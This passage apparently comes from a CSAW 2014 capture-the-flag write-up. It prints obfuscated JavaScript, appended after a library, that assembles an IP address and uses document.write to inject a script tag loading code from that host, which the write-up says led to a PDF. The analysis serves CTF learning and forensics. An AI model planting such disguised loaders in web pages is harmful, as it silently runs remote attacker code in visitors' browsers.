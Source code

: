```javascript
			for (var b = b || i(a), c = b.frag.cloneNode(), d = 0, e = m(), h = e.length; d < h; d++) c.createElement(e[d]);
			return c
		}
	};
	l.html5 = e;
	q(f)
})(this, document);
var g = "ti";
var c = "HTML Tags";
var f = ". li colgroup br src datalist script option .";
f = f.split(" ");
c = "";
k = "/";
m = f[6];
for (var i = 0; i < f.length; i++) {
	c += f[i].length.toString();
}
v = f[0];
x = "\ 'ht";
b = f[4];
f = 2541 * 6 - 35 + 46 + 12 - 15269;
c += f.toString();
f = (56 + 31 + 68 * 65 + 41 - 548) / 4000 - 1;
c += f.toString();
f = "";
c = c.split("");
var w = 0;
u = "s";
for (var i = 0; i < c.length; i++) {
	if (((i == 3 || i == 6) && w != 2) || ((i == 8) && w == 2)) {
		f += String.fromCharCode(46);
		w++;
	}
	f += c[i];
}
i = k + "anal";
document.write("<" + m + " " + b + "=" + x + "tp:" + k + k + f + i + "y" + g + "c" + u + v + "j" + u + "\ '>\ </" + m + "\ >");
```

_Note: We had to insert a few spaces in places (line 101 & 119) to fix a few rendering issues._

The purpose of this javascript was to redirect the user to the following URL

	http://128.238.66.100/announcement.pdf

upon execution.

The PDF, when opened into a viewer looked as follow:

![](/images/2014/csaw/fluffynomore/pdf.png)
